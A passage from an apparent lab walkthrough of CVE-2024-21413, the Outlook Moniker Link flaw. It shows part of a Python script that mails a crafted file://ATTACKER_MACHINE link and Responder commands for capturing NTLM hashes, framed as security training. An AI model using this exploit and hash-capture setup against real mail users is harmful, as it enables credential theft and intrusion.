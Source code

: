 ```python
<html lang="en">
  <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
  server.login(sender_email, password)
except Exception as err:
  print(err)
  exit(-1)

try:
  server.sendmail(sender_email, [receiver_email], message.as_string())
  print("\n Email delivered")
except Exception as error:
  print(error)
finally:
  server.quit()
```

### 2. What the Script Does
- Takes attacker and victim email addresses.
- Asks for attacker’s email password.
- Puts the malicious Moniker Link in the email body.
- Sets subject, sender, and receiver.
- Connects to a mail server and sends the crafted email.
### 3. Setting Up the Attacker Machine
The attacker now sets up a listener to capture hashes.

For example, using Responder:
``` bash
responder -I ens5
```
- Here, ens5 is the network interface (it may differ on your machine).
- Responder will wait for SMB/NTLM authentication attempts.
<img width="1240" height="431" alt="Screenshot 2025-08-17 at 6 58 29 PM" src="https://github.com/user-attachments/assets/3d735dbc-ee82-4225-acd7-34429cfbc7f6" />
### 4. Python's Script
- When prompted for the attacker's email password, enter "attacker".

``` bash
root@attackbox:# python3 exploit.py
```
- Enter your attacker email password: attacker
- The Python script will print "Email delivered" when the email has been sent.
- If the script complains about authentication failure, ensure you have correctly replaced the values in exploit.py.
- Now, let's return to the vulnerable machine and check for the new email:
